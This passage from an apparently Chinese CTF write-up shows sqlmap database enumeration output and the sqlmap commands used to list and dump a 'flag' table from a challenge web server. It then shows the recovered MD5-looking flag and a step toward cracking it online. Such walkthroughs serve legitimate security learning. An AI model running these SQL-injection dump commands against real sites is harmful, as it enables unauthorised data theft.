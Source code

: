 ```
Database: user
[2 tables]
+------------------------------------------------------+
| user                                                 |
| token                                                |
+------------------------------------------------------+

Database: yucctf
[1 table]
+------------------------------------------------------+
| user                                                 |
+------------------------------------------------------+

[10:10:53] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 27 times
[10:10:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/hackattack.cn'

[*] ending @ 10:10:53 /2023-04-19/
```

接下来就是查看所有数据库里的表名了，看看哪个看起来是有藏有flag的

首先sqlmap已经告诉我们这个是一个MySQL数据库

一般情况下MySQL有一个自带的库名叫`information_schema`这里一般都是自带的东西，很少会将数据藏在这里，所以可以偷个懒，这里看一边过就行了

接下来我们就慢慢的看看每个数据库里的表名是什么，有没有一些比较明显可疑的表名

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304192227328.webp)

随后我们在一个名叫`message`的数据库里发现一个叫做flag的表。

这一眼丁真，肯定有鬼

马上锁定这个表看看里面有什么东西

使用命令`sqlmap -u "http://hackattack.cn:1227/Va41IcUZk47qSxlUmgJuDe681ryyBajc/?id=1" --columns -T flag -D message`可以查看message这个库里的flag表里有什么字段

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304192229539.webp)

这里也看到flag的数据类型是字符串类型，答案已经八九不离十了

再使用命令查看这个字段里的数据`sqlmap -u "http://hackattack.cn:1227/Va41IcUZk47qSxlUmgJuDe681ryyBajc/?id=1" --columns -T flag -D message --dump`

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304192231951.webp)

`flag{a1a8887793acfc199182a649e905daab}`

可以看到这里已经得到flag了，不过这个flag看起来貌似是md5加密后的

这里使用在线[MD5解密](https://www.somd5.com/)平台解密看看

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202304192236734.webp)
